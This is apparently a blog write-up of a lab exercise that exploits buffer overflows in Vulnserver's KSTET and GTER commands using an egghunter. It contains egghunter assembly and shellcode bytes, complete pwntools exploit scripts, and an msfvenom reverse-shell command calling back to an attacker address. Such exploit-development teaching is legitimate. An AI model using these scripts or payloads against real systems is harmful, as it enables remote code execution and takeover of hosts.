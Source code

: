 ```yaml
---
title: "Vulnserver: Egghunter in GTER and KSTET after buffer overflow"
date: 2019-11-07
---
```


In this post we are going to exploit a buffer overflow in both commands, GTER and KSTET, since the exploits are very similar I'm covering them both in the same post. We are going to use a new technique called an egghunter that will allow us to exploit targets that don't give us enough length in the initial payload to put our shellcode.<!--more-->

## Analyzing the crash

### KSTET command
First let's analyze the KSTET command, if we look at the stack after the crash we should notice that there is not much space to work with. We have around 60 bytes before overwriting EIP and only 20 after it, that's clearly not enough for our shellcode that takes more than 300 bytes. 

{{img(id="img/immunitydbg1.PNG" class="textCenter")}}

The first solution that comes to mind is using an egghunter and now you should be asking yourself what's that and the explanation is pretty simple. An egghunter is a very small shellcode that goes through all the memory of the program looking for a tag, 4 bytes of our choosing repeated two times, and once it finds that tag it jumps to the code after it.

Below we can find an egghunter shellcode obtained from a post by Security Sift in the following [link](http://www.securitysift.com/windows-exploit-development-part-5-locating-shellcode-egghunting/). If you want a better explanation of how it works go to that post, a good understanding of x86 Assembly helps a lot to comprehend how it works.

```nasm
entry:
loop_inc_page:
     or    dx, 0x0fff       ; loop through memory pages by adding 4095 decimal or 
                            ; PAGE_SIZE-1 to edx
 
 loop_inc_one:
     inc   edx              ; loop through addresses in the memory page one by one
 
 make_syscall:
     push  edx              ; push edx value (current address) onto the stack to save for 
                            ; future reference
     push  0x43             ; push 0x43 (the Syscall ID for NtDisplayString) onto the stack
     pop   eax              ; pop 0x43 into eax to use as the parameter to syscall
     int   0x2e             ; issue the interrupt to call NtDisplayString kernel function
 
 check_is_valid:
     cmp   al, 0x05         ; compare low order byte of eax to 0x5 (5 = access violation)
     pop   edx              ; restore edx from the stack
     jz    loop_inc_page    ; if the zf flag was set by cmp instruction there was an access 
                            ; violation
                            ; and the address was invalid so jmp back to loop_inc_page
 is_egg:
     mov   eax, 0x444e5750  ; if the address was valid, move the egg into eax for comparison
     mov   edi, edx         ; set edi to the current address pointer in edx for use in the 
                            ; scasd instruction
     scasd                  ; compares value in eax to dword value addressed by edi (current
                            ; address pointer) and sets EFLAGS register accordingly after  
                            ; scasd comparison, EDI is automatically incremented by 4 if DF 
                            ; flag is 0 or decremented if flag is 1 
     jnz   loop_inc_one     ; egg not found? jump back to loop_inc_one
     scasd                  ; first 4 bytes of egg found compare the dword in edi to 
                            ; eax again (remember scasd automatically advanced by 4)
     jnz   loop_inc_one     ; only the first half of the egg was found 
                            ; jump back to loop_inc_one  
 
 found:
     jmp   edi              ;egg found! thanks to scasd, edi now points to shellcode
```

Now that we have our egghunter shellcode we should look for a way to send our reverse shell shellcode into the memory of the program. One possibility is simply sending the shellcode as part of another command, so let's test that with the following python code.

```python
# Important to use different sockets because socket re-use truncated our shellcode
io1 = remote(ip,port)
io1.readline()
io1.sendline(b"KSTAN "+ "GschGsch" + b"A"*350)
io1.close() # Close the socket so we use a different socket for our egghunter
```

To check if it worked we can go to the Memory map window in Immunity Debugger and search for our tag "GschGsch", after trial and error we found that it worked with the KSTAN command giving us more than enough size to put our reverse shell shellcode.

{{img(id="img/immunitydbg2.PNG" class="textCenter")}}

So now we have all the pieces we needed to exploit the KSTET command.

### GTER command

For the GTER command we don't need much more work, if we look at the stack after the crash we see that we have around 150 bytes before overwriting EIP and 20 bytes after. Again that's not enough space for our shellcode so we are going to use the same egghunter technique as in KSTET, the only difference is going to be the offset when overwriting EIP.

{{img(id="img/immunitydbg3.PNG" class="textCenter")}}

So now let's jump into exploiting the commands.

## Exploiting

### KSTET command

First of all we need to generate the shellcode from the assembly of our egghunter, to do that we are going to use the [NASM](https://www.nasm.us/) and a simple python script I created. If we give the name of the file containing the x86 Assembly code to our python script it will print the shellcode. As a note I modified the egghunter code so that it looks for the tag "GschGsch" instead of "PWNDPWND".

```python
import os
import sys
if len(sys.argv) != 2 :
    print "Usage: "+sys.argv[0]+" <file.asm>."
    sys.exit()

cmd = "nasm -fbin -o shellcode.bin " +sys.argv[1]
exit_status = os.system(cmd)
if exit_status != 0:
    print "[!] Error executing nasm."
    sys.exit()

with open("shellcode.bin") as f: 
    code = f.read()
    print '\\x'+'\\x'.join(x.encode('hex') for x in code)

os.remove("shellcode.bin")
```

Now that we have the egghunter shellcode we can see that it's 32 bytes long so we don't have enough space after EIP to put it there. A simply solution is to put a short shellcode that jumps to the 60 bytes we had before our EIP and put our egghunter there. We can use the assembly instruction "jmp -50" or "\xeb\xcc" to do exactly that, if we put it all together we obtain the following script.

```python
from pwn import *

# IP and port of the target (Vulnserver).
ip = "10.0.2.15"
port = 9999

cmd = "KSTET /.:/"
# cyclic -l 0x61616174
offset_eip = 76
eip = 0x625011af # Address of instruction we want to run (jmp esp).

# Here we put the shellcode we want to execute.
offset_sc = offset_eip + 4
shellcode = b"\xeb\xcc" # jmp -50

# Here we put our egghunter (TAG="Gsch").
offset_egg = offset_eip - 50
egg = (b"\x90"*8 + # less padding because stack was overwritting egghunter from below
b"\x66\x81\xca\xff\x0f\x42\x52\x6a\x43\x58\xcd\x2e\x3c\x05\x5a"
b"\x74\xef\xb8\x47\x73\x63\x68\x89\xd7\xaf\x75\xea\xaf\x75\xe7"
b"\xff\xe7")

# Here we add our shellcode and prepend the tag so that egghunter finds it.
# msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.6 EXITFUNC=thread -f c -b "\x00\x0a"
tag_shellcode = (b"GschGsch" + b"\xdb\xc1\xbe\xd6...")

# Create our payload.
payload = fit({
    0:cmd,
    offset_egg:egg,
    offset_eip:eip,
    offset_sc:shellcode,
    },length=200)

# Important to use different sockets because socket re-use truncated our shellcode
io1 = remote(ip,port)
io1.readline()
io1.sendline(b"KSTAN "+ tag_shellcode)
io1.close()

io = remote(ip,port)
io.readline()
io.sendline(payload)
```

The only thing left is to listen on port 4444 with netcat, execute our script and get our shell. And it works like a charm!

## GTER command

For this commands the steps are exactly the same as for KSTET, we also only have 20 bytes after EIP but we have around 150 bytes before it so we can use a "jmp -100" or "\xeb\x9a" to get to our egghunter. Instead of repeating myself I'm simply going to post how the script looks.

```python
from pwn import *

# IP and port of the target (Vulnserver).
ip = "10.0.2.15"
port = 9999

cmd= b"GTER "
# cyclic -l 0x6261616F
offset_eip = 156 
eip = 0x625011af # Address of instruction we want to run (jmp esp).

# Here we put the shellcode we want to execute.
offset_sc1 = offset_eip + 4
sc1 = b"\xEB\x9A" # jmp -100

# Here we put our egghunter (TAG="Gsch").
offset_egg = offset_eip - 100
egg = (b"\x90"*16 +
b"\x66\x81\xca\xff\x0f\x42\x52\x6a\x43\x58\xcd\x2e\x3c\x05\x5a"
b"\x74\xef\xb8\x47\x73\x63\x68\x89\xd7\xaf\x75\xea\xaf\x75\xe7"
b"\xff\xe7")

# Here we add our shellcode and prepend the tag so that egghunter finds it.
# msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.6 EXITFUNC=thread -f c -b "\x00\x0a"
sc2 = (b"GschGsch" + b"\xdb\xc1\xbe\xd6...")

# Create our payload.
payload = fit({
    0:cmd,
    offset_egg:egg,
    offset_eip:eip,
    offset_sc1:sc1,
    },length=200)

# Important to use different sockets because socket re-use truncated our shellcode
io1 = remote(ip,port)
io1.readline()
io1.sendline(b"KSTAN "+ sc2)
io1.close()

io2 = remote(ip,port)
io2.readline()
io2.sendline(payload)
```

And that's it folks, we exploited both commands with almost idential scripts.

See you in the next post :).